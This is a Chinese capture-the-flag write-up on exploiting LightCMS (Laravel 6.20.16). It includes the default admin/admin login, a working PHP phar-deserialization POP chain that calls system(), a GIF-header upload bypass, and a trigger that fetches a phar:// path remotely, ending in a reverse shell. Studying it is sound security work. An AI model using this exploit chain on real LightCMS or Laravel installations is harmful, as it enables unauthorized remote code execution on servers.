






## ezlight

题目是 lightcms 最新版本。github 上搜索历史漏洞，发现[https://github.com/eddy8/LightCMS/issues/19](https://github.com/eddy8/LightCMS/issues/19)，不过任意文件读取与getshell的漏洞已经修复。分析patch代码：

```php
protected function fetchImageFile($url)
    {
        try {
            if (!filter_var($url, FILTER_VALIDATE_URL)) {
                return false;
            }

            $ch = curl_init();
            $options =  [
                CURLOPT_URL => $url,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_USERAGENT => 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.2 (KHTML, like Gecko) Chrome/22.0.1216.0 Safari/537.2'
            ];
            curl_setopt_array($ch, $options);
            $data = curl_exec($ch);
            curl_close($ch);
            if (!$data) {
                return false;
            }

            if (isWebp($data)) {
                $image = Image::make(imagecreatefromwebp($url));
                $extension = 'webp';
            } else {
                $image = Image::make($data);
            }
        } catch (NotReadableException $e) {
            return false;
        }

        $mime = $image->mime();
        return [
            'extension' => $extension ?? ($mime ? strtolower(explode('/', $mime)[1]) : ''),
            'data' => $data
        ];
    }

    protected function isAllowedImageType($extension)
    {
        $c = config('light.neditor.upload');

        return in_array('.' . $extension, $c['imageAllowFiles'], true);
    }
```

使用 `Intervention\Image\Facades\Image`来进行图片处理，看起来无法绕过，无法读取文件，只能上传图片文件。

默认后台密码 admin / admin 登陆进去，发现 Laravel 版本是 6.20.16，审计代码发现后台大多操作是数据库操作， 可能存在 getshell 的点较少。考虑文件上传 + phar 反序列化。

### POP链

Laravel 版本是 6.20.16，网上分析的RCE POP链大多是 5.x 版本，经测试[https://nikoeurus.github.io/2019/12/16/laravel5.8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#POP%E9%93%BE1](https://nikoeurus.github.io/2019/12/16/laravel5.8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#POP%E9%93%BE1)这条链子在 laravel 6.x 7.x 同样适用，所以直接用这条 `dispatch`的链子就可以。

### 文件上传

我们需要将 phar 文件上传到服务器，虽然 catchImage 远程下载文件对文件内容检查很严格，但是文件上传处较为松散，一般的添加 GIF 文件头就可以成功上传

```php
<?php

namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;

        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }

    }

    class BroadcastEvent
    {
      protected $connection;

      public function __construct($connection)
      {
        $this->connection = $connection;
      }
    }

}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;

        public function __construct($queueResolver)
        {
          $this->queueResolver = $queueResolver;
        }

    }
}

namespace{
    $command = new Illuminate\Broadcasting\BroadcastEvent('whoami');

    $dispater = new Illuminate\Bus\Dispatcher("system");

    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispater,$command);
    $phar = new Phar('phar.phar');
    $phar -> stopBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($PendingBroadcast);
    $phar -> stopBuffering();
    rename('phar.phar','phar.jpg');

}


```

### 触发点

现在最后一步就是需要找到触发点，即我们可控的一个文件处理函数。审计代码发现这个cms并没有太多文件操作。

注意到修复代码 `fetchImageFile`函数存在如下操作：



在获取到远程url的内容后，会调用 `Intervention\Image\Facades\Image`的 `make`方法，进行图片的解析。

跟进，会跳到 `vendor/intervention/image/src/Intervention/Image/AbstractDecoder.php`中 `AbstractDecoder`类的 `init`方法，判断数据类型：



可以看到 data 不仅可以是图片的二进制数据 ，还可以是这些数据格式，跟进 `initFromUrl`方法：



非常明显的 file_get_contents，所以我们可以在 vps 上放置一个 txt 文件，内容为 `phar://./upload/xxx`，然后让服务器来取这个文件，即可触发反序列化。

### RCE

下面是 RCE 流程，注意这里命令执行没有回显，需要反弹shell。

首先使用前面的代码生成 phar 文件（命令改为反弹shell的），在后台添加文章处上传图片：



得到文件路径 `upload/image/202102/AciwTtmKQ7IQN4gdeoiZ6ve4A0LSK48SGJGk38df.gif`。

在 vps 上放置一个文件，内容为 `phar://./upload/image/202102/AciwTtmKQ7IQN4gdeoiZ6ve4A0LSK48SGJGk38df.gif`，请求：




可以反弹到shell：



